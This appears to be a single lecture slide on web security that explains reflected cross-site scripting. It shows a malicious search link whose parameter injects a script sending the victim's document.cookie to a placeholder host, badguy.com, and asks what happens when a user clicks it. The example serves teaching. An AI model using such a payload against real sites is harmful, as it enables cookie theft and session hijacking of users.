

# The Malicious Link
Consider link: 	(properly URL encoded)

  http://search.com/search.php ? term =
  <script> window.open(
  “http://badguy.com?cookie = ” +
  document.cookie )  </script>

What if user clicks on this link?

62